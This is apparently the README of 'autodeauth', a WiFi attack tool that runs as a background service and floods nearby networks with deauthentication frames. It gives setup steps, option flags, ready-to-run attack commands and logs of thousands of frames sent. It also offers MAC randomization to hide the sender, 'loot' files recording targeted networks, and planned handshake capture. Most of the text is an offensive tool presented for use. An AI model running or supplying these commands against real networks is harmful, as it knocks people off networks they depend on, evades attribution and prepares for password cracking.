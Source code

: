 # autodeauth
A tool built to automatically deauth local networks
* Tested on Raspberry Pi OS and Kali Linux

# To-Do
* EAPOL packet Capture
* Auto join open networks and grab public ip

# Setup
```
$ chmod +x setup.sh
$ sudo ./setup.sh

[*] This can be changed by editing /etc/systemd/system/autodeauth.service
[?] Enter your WiFi interface to use with the autodeauth service: wlan0 


[*] Installed!, you can use sudo autodeauth -h to see available options.
[*] Use sudo systemctl start autodeauth to start the service
[*] Check the README for more infomation about configuring the service
```


# Options
```
$ sudo autodeauth -h
        _       _       ___                _   _    
       /_\ _  _| |_ ___|   \ ___ __ _ _  _| |_| |_  
      / _ \ || |  _/ _ \ |) / -_) _` | || |  _| ' \ 
     /_/ \_\_,_|\__\___/___/\___\__,_|\_,_|\__|_||_|

usage: autodeauth [-h] --interface INTERFACE [--blacklist BLACKLIST] [--whitelist WHITELIST] [--led LED] [--time TIME] [--random] [--ignore] [--count COUNT] [--verbose VERBOSE]

Auto Deauth Tool

options:
  -h, --help            show this help message and exit
  --interface INTERFACE, -i INTERFACE
                        Interface to fetch WiFi networks and send deauth packets (must support packet injection)
  --blacklist BLACKLIST, -b BLACKLIST
                        List of networks ssids/mac addresses to avoid (Comma seperated)
  --whitelist WHITELIST, -w WHITELIST
                        List of networks ssids/mac addresses to target (Comma seperated)
  --led LED, -l LED     Led pin number for led display
  --time TIME, -t TIME  Time (in s) between two deauth packets (default 0)
  --random, -r          Randomize your MAC address before deauthing each network
  --ignore              Ignore errors encountered when randomizing your MAC address
  --count COUNT, -c COUNT
                        Number of packets to send (default 5000)
  --verbose VERBOSE, -v VERBOSE
                        Scapy verbosity setting (default: 0)
                                                    
```

# Usage
After running the setup you are able to run the script by using autodeauth from any directory
## Command line
Networks with spaces can be represented using their mac addresses
```
$ sudo autodeauth -i wlan0 --blacklist FreeWiFi,E1:DB:12:2F:C1:57 -c 10000
```
## Service
```
$ sudo systemctl start autodeauth
```


# Loot and Log files
## Loot
When a network is detected and fits under the whitelist/blacklist criteria its network information is saved as a json file in /var/log/autodeauth/

```json
{
    "ssid": "MyWiFiNetwork",
    "mac_address": "10:0B:21:2E:C1:11",
    "channel": 1,
    "network.frequency": "2.412 GHz",
    "mode": "Master",
    "bitrates": [
        "6 Mb/s",
        "9 Mb/s",
        "12 Mb/s",
        "18 Mb/s",
        "24 Mb/s",
        "36 Mb/s",
        "48 Mb/s",
        "54 Mb/s"
    ],
    "encryption_type": "wpa2",
    "encrypted": true,
    "quality": "70/70",
    "signal": -35
} 
```
## Log File
```
$ cat /var/log/autodeauth/log               
2022-08-20 21:01:31 - Scanning for local networks
2022-08-20 21:20:29 - Sending 5000 deauth frames to network: A0:63:91:D5:B8:76 -- MyWiFiNetwork
2022-08-20 21:21:00 - Exiting/Cleaning up
```

# Edit Service Config

To change the settings of the autodeauth service edit the file /etc/systemd/system/autodeauth.service <br>
Lets say you wanted the following config to be setup as a service
```
$ sudo autodeauth -i wlan0 --blacklist FreeWiFi,myWifi -c 10000
```
```
$ vim /etc/systemd/system/autodeauth.service
```
Then you would change the ExecStart line to <br>
```
ExecStart=/usr/bin/python3 /usr/local/bin/autodeauth -i wlan0 --blacklist FreeWiFi,myWifi -c 10000
```

